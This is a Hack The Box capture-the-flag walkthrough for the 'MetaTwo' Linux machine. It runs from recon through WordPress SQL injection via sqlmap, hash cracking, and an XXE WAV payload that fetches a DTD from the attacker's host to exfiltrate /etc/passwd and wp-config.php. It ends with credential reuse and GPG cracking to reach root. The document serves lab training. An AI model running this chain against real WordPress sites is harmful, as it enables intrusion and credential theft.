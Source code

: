 # 🧬 HTB: MetaTwo

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
## 🌐 Recon Phase

### Nmap Full Port Scan + Service Version Detection
```bash
nmap -p- --min-rate 10000 10.10.11.186
nmap -p 21,22,80 -sCV 10.10.11.186
```

### Add Host Mapping
```bash
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### [Wfuzz for Subdomains](HTTP)
```bash
wfuzz -u http://10.10.11.186 -H "Host: FUZZ.metapress.htb" \
-w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 145
```

---

## 🧨 SQL Injection (BookingPress Plugin)

### Identify Nonce from Page Source
```bash
# Example nonce found in /events/ page JS
'_wpnonce=6027d5fa3e'
```

### SQLMap Setup
Save this as `sqli.req` (modified from Burp):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
Content-Type: application/x-www-form-urlencoded

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=223
```

### Run SQLMap
```bash
sqlmap -r sqli.req -p total_service --dbs
sqlmap -r sqli.req -p total_service -D blog --tables
sqlmap -r sqli.req -p total_service -D blog -T wp_users --dump
```

---

## 🔐 Cracking WordPress Hash

### Save Hashes
```text
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Hashcat
```bash
hashcat -m 400 -a 0 wp.hashes /usr/share/wordlists/rockyou.txt --username
# Cracked: manager:partylikearockstar
```

---

## 🎯 XXE Exploit for File Disclosure

### payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.6/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### evil.dtd (serve via Python HTTP server)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6/?p=%file;'>">
```

### Serve DTD
```bash
python3 -m http.server 80
```

---

## 🔐 Extract [FTP](FTP) + DB Credentials

From `evil.dtd`, modify to target:
```xml
php://filter/convert.base64-encode/resource=../wp-config.php
```

Expected credentials:
```php
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

---

## 📂 FTP Enumeration

```bash
ftp metapress.htb@metapress.htb
# Enter password from wp-config
```

Check files in `/mailer/send_email.php` → extract SMTP creds:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

---

## 🧑‍💻 Shell as `jnelson`

```bash
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
cat ~/user.txt
```

---

## 🧬 Privilege Escalation via Passpie + GPG

### Extract `.keys` and Format with `gpg2john`
```bash
scp jnelson@metapress.htb:~/.passpie/.keys keys
gpg2john keys | tee gpg.hash
```

### Crack with John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
# Found passphrase: blink182
```

### Retrieve Root Password via Passpie
```bash
passpie copy --to stdout --passphrase blink182 root@ssh
# Output: p7qfAZt4_A1xo_0x
```

---

## 🟢 Root Shell

```bash
su -
# Enter root pass: p7qfAZt4_A1xo_0x
cat /root/root.txt
```